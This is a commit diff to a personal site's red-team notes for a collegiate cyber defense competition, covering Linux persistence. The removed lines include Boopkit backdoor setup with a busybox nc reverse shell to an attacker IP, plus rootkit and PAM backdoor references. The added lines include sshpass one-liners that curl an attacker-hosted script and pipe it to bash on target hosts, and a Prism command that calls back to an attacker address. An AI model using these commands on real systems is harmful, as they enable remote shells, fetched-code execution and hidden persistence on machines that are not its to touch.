

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 1840 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -78,31 +78,22 @@
     - Then update GP with `gpupdate /force`
 
 **Linux:**
-- Our persistence script
-  - Linux < 4.x
-    - Pam backdoor (out is /opt/bds/pam_out)
-    - Reptile rootkit with bds prefix
-    - Prism backdoor
-    - tty0 backdoor
-  - Linux 5.x/6.x
-    - Pam backdoor
-    - BDS with bds prefix (comes with pingable backdoor)
 - [PANIX](https://github.com/Aegrah/PANIX)
   - One-stop shop for lots of persistence methods, this thing is a great reference
 - Todo:
-  - Get something going for alpine
-    - Add a second location for SSH keys
-    - Add another user via /etc/passwd
-  - Test Nixos?
-- [Boopkit](https://github.com/krisnova/boopkit)
-  - Sneaky amazing backdoor that functions via back checksum TCP packets
-  - `wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.4.1.tar.gz`
-    - `apt install clang make bpftool libbpf-dev gcc-multilib llvm libxdp-dev libpcap-dev`
-  - Then, run on victim with `boopkit -i {network_interface} -q`
-    - We need to find a way to get the default network interface
-  - Then, after making on Kali, can run `boopkit-boop -rhost {target} -rport 3535 -c '{command}' -lhost {kali_IP} -lport {kali_port}`
-    - E.g. `sudo boopkit-boop -lhost 192.168.204.130 -lport 4444 -rhost 192.168.204.139 -rport 3535 -c 'busybox nc 192.168.204.130 4444 -e bash'`
-  - Listens on TCP 3545
+  - Replace prism with Waterfall
+  - Get something going for alpine/RHEL/Nixos
+    - Write a general script which determines version and then executes the other scripts
+    - Alpine
+      - Add a second location for SSH keys
+    - Nixos
+      - Figure out which PAM file controls auth and modify it
+  - Scripting across teams
+    - Running commands with SSH by putting it after the command
+      - `echo "{password}" | sshpass -p "{password}" ssh -o StrictHostKeyChecking=no "{username}@{ip}" "sudo -S id"`
+      - `echo "{password}" | sshpass -p "{password}" ssh -o StrictHostKeyChecking=no "{username}@{ip}" "sudo -S bash -c 'curl -L {kali_IP}:{port}/p.sh | bash -s {kali_IP}:{port}'"`
+        - This will work regardless of whether the password is actually required
+    - One-liners to generate IPs
 - [Prism](https://github.com/andreafabrizi/prism)
   - `gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c` or if that fails just download and run `prism`
   - Then run `sudo python2 sendPacket.py {target_IP} {password} {attacker_IP} {attacker_port}`
@@ -140,16 +131,6 @@
       - Works with both adding users to `/etc/passwd` and cron jobs
         - Actually, having some trouble getting it working with cron jobs
       - However, ssh seems resistant. Can't seem to permit root logins with a hidden line or add an hidden authorized keys file
-- [Caraxes](https://github.com/ait-aecid/caraxes/)
-  - Seems to be pretty good for 5.14-6.11, but a bit lacking on functionality
-    - This one would make a nice starting place for building our own
-  - Will need to uncomment the `hide_module()` function
-  - Good for hiding files - we can set the word to hide in `rootkit.h`
-- [BrokePKG](https://github.com/R3tr074/brokepkg)
-  - Install dependencies with `./scripts/dependencies.sh`
-  - Config in `./include/config.h`
-  - Seems to work on 5.x and 6.x? Less functionality than BDS, but a good backup
-
 
 ## Domain Persistence
 
```
Also changed, not shown: markdown/ADExploitation.md (+1 -0 lines).
